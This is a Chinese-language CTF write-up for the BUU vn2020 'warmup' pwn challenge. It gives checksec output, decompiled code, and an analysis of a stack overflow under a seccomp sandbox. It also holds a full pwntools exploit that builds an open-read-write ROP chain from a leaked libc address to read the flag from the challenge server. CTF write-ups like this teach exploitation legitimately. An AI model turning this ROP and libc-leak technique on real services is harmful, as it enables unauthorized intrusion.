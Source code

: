# BUU-vn2020-warmup

## checksec

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## IDA

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  sub_80A(a1, a2, a3);
  puts("This is a easy challange for you.");
  printf("Here is my gift: 0x%llx\n", &puts);
  sub_84D();//沙箱，禁用write和exceve
  sub_9D3();
  return 0LL;
}

int sub_9D3()
{
  char buf[384]; // [rsp+0h] [rbp-180h] BYREF

  printf("Input something: ");
  read(0, buf, 0x180uLL);
  sub_9A1();
  return puts("Done!");
}

ssize_t sub_9A1()
{
  char buf[112]; // [rsp+0h] [rbp-70h] BYREF

  printf("What's your name?");
  return read(0, buf, 0x80uLL);
}
```

给了我们puts的地址，我们可以以此来确定libc基址。但是由于不能get shell，所以要构造orw的ROP。开启了PIE保护，选择在libc中找gadget，在name处可以溢出，覆盖返回地址和rbp。

注意到，`sub_9A1`的栈应该在`sub_9D3`的下方，且两者是调用关系，`sub_9A1`的buf的栈应该与`sub_9D3`相邻，所以我们只要让栈再ret到`sub_9D3`的buf里就可以，通过覆盖返回地址为`pop_rdi_ret`，最后ret到ROP处。

`open`函数还需要一个`flag`字符串，由于程序的位置是随机的，我们将这个字符串写在栈上，例如`free_hook`

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from struct import pack
leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))
#context.log_level="DEBUG"
#context.arch="amd64"

local=0
binary='./vn_pwn_warmup'
#gdb.attach(sh)
# if local:
# 	sh=process(binary)
# else:
# 	sh=remote('node3.buuoj.cn',27261)

elf = ELF(binary,checksec=False)
while True:
	sh=remote('node3.buuoj.cn',28653)
	sh.recvuntil('gift: ') 
	puts_addr=int(sh.recvuntil('\n'),16)
	libc=ELF("libc6_2.23-0ubuntu10_amd64.so",checksec=False)
	libcbase=puts_addr-libc.symbols['puts']
	leak('libc base',libcbase)

	pop_rdi=libcbase+0x21102
	pop_rsi=libcbase+0x202e8
	pop_rdx=libcbase+0x1b92
	open_addr=libcbase+libc.sym['open']
	free_hook=libcbase+libc.sym['__free_hook']
	read_addr=libcbase+libc.sym['read']
	puts_addr=libcbase+libc.sym['puts']

	payload=p64(0)+p64(pop_rsi)+p64(free_hook)+p64(pop_rdx)+p64(4)+p64(read_addr)
	payload+=p64(pop_rdi)+p64(free_hook)+p64(pop_rsi)+p64(4)+p64(open_addr)
	payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(free_hook)+p64(pop_rdx)+p64(0x30)+p64(read_addr)
	payload+=p64(pop_rdi)+p64(free_hook)+p64(puts_addr)
	try:
		sh.sendafter("Input something: ",payload)
		sh.sendafter("What's your name?",'a'* 0x78+p64(pop_rdi))
		sh.send("./flag")
		flag = sh.recv()
		if 'flag' in flag:
			print(flag)
	except:
		sh.close()
		continue
```

